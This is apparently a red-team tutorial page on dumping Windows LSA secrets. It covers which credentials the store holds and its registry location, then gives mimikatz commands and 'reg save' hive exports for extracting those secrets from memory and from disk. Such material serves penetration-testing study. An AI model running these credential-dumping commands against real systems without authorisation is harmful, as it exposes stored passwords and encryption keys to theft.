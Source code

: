 ```yaml
---
layout: post
title: "dumping lsa secrets"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-lsa-secrets/
---
```


---
layout: post
title: "dumping lsa secrets"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-lsa-secrets/
---

# Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-20-39.png>)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```
token::elevate
lsadump::secrets
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-25-01.png>)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-37-11.png>)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-38-02.png>)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}

@spotheplanet
